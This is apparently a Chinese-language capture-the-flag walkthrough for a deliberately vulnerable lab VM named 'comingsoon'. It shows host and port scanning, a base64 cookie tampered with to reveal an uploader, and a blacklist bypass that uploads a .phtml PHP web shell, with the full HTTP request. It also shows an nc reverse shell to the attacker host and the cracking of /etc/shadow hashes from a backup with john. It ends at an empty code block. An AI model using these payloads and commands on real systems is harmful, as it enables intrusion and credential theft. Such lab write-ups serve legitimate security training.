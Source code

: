 刚开始没有IP
单用户修改密码也需要输入用户密码，不能改
/boot/grub/grub.cfg配置文件下
```c

```
看了wp，才知道root用户密码ToyStory3，进去后也没有dhclient命令获取ip
只能换一种方式，编辑vim /etc/network/interface
[Linux(Debian)网卡设置\_debian auto eth0-CSDN博客](https://blog.csdn.net/willhuo/article/details/79610260)

|   |   |   |
|---|---|---|
|comingsoon|easy|前端分析、文件上传绕过、提示信息利用、shadow 爆破、hydra 使用、|

# 主机发现
```C
sudo netdiscover -i eth0 -r 192.168.44.133/24
┌──(kali㉿kali)-[~]
└─$ fping -aqg 192.168.44.0/24
```
# 服务探测
```C
sudo nmap -sV -A -T 4 -p- 192.168.44.137
```
只有22和80
# 目录爆破
```C
http://192.168.44.137/notes.txt
Dave,

Last few jobs to do...

Set ssh to use keys only (passphrase same as the password)

Just need to sort the images out:
resize and scp them or using the built-in image uploader.

Test the backups and delete anything not needed.

Apply an https certificate.

Cheers,

Webdev

翻译

戴夫，

最后几项工作要做...

将 ssh 设置为仅使用密钥（密码与密码相同）

只需要对图像进行排序：
调整大小并对其进行 scp 或使用内置图像上传器。

测试备份并删除不需要的任何内容。

申请https证书。

干杯，

网络开发者


http://192.168.44.137/index.php
右键检查源码看到提示

 Upload images link if EnableUploader set 
 翻译
 如果设置了 EnableUploader，则上传图像链接

```


检查当前页面的cookie信息，发现base64编码的东西
```css
RW5hYmxlVXBsb2FkZXIK 
ZmFsc2UK
解码后
EnableUploader
false
```

综上所述，把false改成true编码后`dHJ1ZQ==`，就会出现文件上传的入口
http://192.168.44.137/5df03f95b4ff4f4b5dabe53a5a1e15d7.php
burp抓包,这里后端使用黑名单限制了php后缀的上传，尝试使用phtml后缀被解析成功。

```
POST /5df03f95b4ff4f4b5dabe53a5a1e15d7.php HTTP/1.1
Host: 192.168.44.137
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------30594177056923721121592264423
Content-Length: 379
Origin: http://192.168.44.137
Connection: close
Referer: http://192.168.44.137/5df03f95b4ff4f4b5dabe53a5a1e15d7.php
Cookie: RW5hYmxlVXBsb2FkZXIK=dHJ1ZQ==
Upgrade-Insecure-Requests: 1

-----------------------------30594177056923721121592264423
Content-Disposition: form-data; name="fileToUpload"; filename="1.phtml"
Content-Type: image/png
<?php system($_GET['cmd']);?>
-----------------------------30594177056923721121592264423
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------30594177056923721121592264423--
```

命令执行
```c
http://192.168.44.137/assets/img/1.phtml?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

# nc反弹shell
```css
http://192.168.44.137/assets/img/1.phtml?cmd=nc -e /bin/sh 192.168.44.128 9001
```

```c
python3 -c 'import pty;pty.spawn("/bin/bash")'
或者
script /dev/null -c bash
export TERM=xterm
Ctrl+z快捷键
stty raw -echo;fg
reset
```

# 提权
目前看啥都没权限
只有/var/backups/目录下有个备份文件backup.tar.gz有用
```css
www-data@comingsoon:/var/backups$ cp backup.tar.gz /tmp
www-data@comingsoon:/tmp$ tar -zxvf backup.tar.gz
www-data@comingsoon:/tmp$ cat etc/shadow
```

```c
root:$y$j9T$/E0VUDL7uS9RsrvwmGcOH0$LEB/7ERUX9bkm646n3v3RJBxttSVWmTBvs2tUjKe9I6:18976:0:99999:7:::
scpuser:$y$j9T$rVt3bxjp6uYKKYJbYU2Zq0$Ysn02LrCwTUB7iQdRiROO7/WQi8JSGtwLZllR54iX0.:18976:0:99999:7:::
```
爆破
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ john -w=../rockyou.txt comningsoon --format=crypt 

tigger           (scpuser)  
```
切换用户
```c

```